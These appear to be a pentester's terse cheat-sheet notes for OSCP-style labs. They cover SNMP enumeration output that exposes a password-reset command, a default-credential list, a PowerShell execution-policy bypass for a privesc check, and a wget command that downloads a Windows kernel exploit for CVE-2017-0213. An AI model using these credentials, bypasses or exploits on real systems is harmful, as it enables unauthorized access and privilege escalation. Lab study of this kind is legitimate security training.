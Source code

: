 
# SQLITE View
> https://inloop.github.io/sqlite-viewer/


# online cracking
https://hashes.com/en/decrypt/hash
https://crackstation.net/

# SNMP
- snmapwalk
- snmp-check
```
> snmpwalk -c public -v1 192.168.174.149 NET-SNMP-EXTEND-MIB::nsExtendOutputFull
NET-SNMP-EXTEND-MIB::nsExtendOutputFull."RESET" = STRING: Resetting password of kiero to the default value
```

```
(Wed Jan-1 10:11:09am)-(CPU 8.7%:0:Net 4)-(kali:~/challenge_labs/oscp2)-(104K:8)
> snmpwalk -c public -v1 192.168.174.149 NET-SNMP-EXTEND-MIB::nsExtendObjects
NET-SNMP-EXTEND-MIB::nsExtendNumEntries.0 = INTEGER: 1
NET-SNMP-EXTEND-MIB::nsExtendCommand."RESET" = STRING: ./home/john/RESET_PASSWD
NET-SNMP-EXTEND-MIB::nsExtendArgs."RESET" = STRING: 
NET-SNMP-EXTEND-MIB::nsExtendInput."RESET" = STRING: 
NET-SNMP-EXTEND-MIB::nsExtendCacheTime."RESET" = INTEGER: 5
NET-SNMP-EXTEND-MIB::nsExtendExecType."RESET" = INTEGER: exec(1)
NET-SNMP-EXTEND-MIB::nsExtendRunType."RESET" = INTEGER: run-on-read(1)
NET-SNMP-EXTEND-MIB::nsExtendStorage."RESET" = INTEGER: permanent(4)
NET-SNMP-EXTEND-MIB::nsExtendStatus."RESET" = INTEGER: active(1)
NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."RESET" = STRING: Resetting password of kiero to the default value
NET-SNMP-EXTEND-MIB::nsExtendOutputFull."RESET" = STRING: Resetting password of kiero to the default value
NET-SNMP-EXTEND-MIB::nsExtendOutNumLines."RESET" = INTEGER: 1
NET-SNMP-EXTEND-MIB::nsExtendResult."RESET" = INTEGER: 0
NET-SNMP-EXTEND-MIB::nsExtendOutLine."RESET".1 = STRING: Resetting password of kiero to the default value
```

# Default Creds FTP,SSH,Login Panel
admin:admin
ftp:ftp
test:test
admin:admin@123
admin:password
admin:password123


# 1liner powershell
```
powershell -ep bypass -Command ". ./priv.ps1; Invoke-PrivescCheck"

```

# ad abuse
https://github.com/k4sth4/Abusing-rights-in-a-Domain


# kernal exploit 
https://www.exploit-db.com/exploits/45010

wget https://raw.githubusercontent.com/SecWiki/windows-kernel-exploits/2b944b52ee30f8833a21f0805d2627ca1f15383a/CVE-2017-0213/CVE-2017-0213_x86.zip
